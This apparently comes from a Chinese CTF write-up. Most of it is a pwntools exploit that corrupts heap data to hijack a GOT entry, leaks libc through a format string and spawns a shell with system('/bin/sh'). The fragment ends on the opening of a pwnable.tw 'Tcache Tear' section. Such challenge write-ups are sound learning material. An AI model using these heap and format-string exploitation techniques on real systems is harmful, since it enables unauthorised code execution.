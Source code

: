 ```python
add(0,0x48,'a'*0x8)
edit(0,0,'')
edit(0,0x48,p64(atoll_got))
add(1,0x48,'a'*0x8)
edit(0,0x58,'a'*8)
dele(0)
edit(1,0x58,'b'*0x10)
dele(1)

add(0,0x48,p64(printf_plt))
sh.sendlineafter('choice: ','1')
sh.recvuntil("Index:")
sh.sendline('%6$p')
stdout_addr = int(sh.recv(14),16)
libc.address=stdout_addr -libc.sym['_IO_2_1_stdout_']
info("libc: "+hex(libc.address))
sh.sendlineafter('choice: ','1')
sh.recvuntil(":")
sh.sendline('a'+'\x00')
sh.recvuntil(":")
sh.send('a'*15+'\x00')
sh.recvuntil("Data:")
sh.send(p64(libc.sym['system']))

# gdb.attach(p)
sh.sendlineafter('choice: ','3')
sh.recvuntil("Index:")
sh.sendline("/bin/sh\x00")
sh.interactive()

```

由于延迟原因（~~辣鸡校园网~~，建议使用`sh.recvuntil('xxx');sh.send('xxx')`而不是`sendlineafter`。

# pwnable.tw-Tcache Tear

## checksec

```shell
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```



## IDA
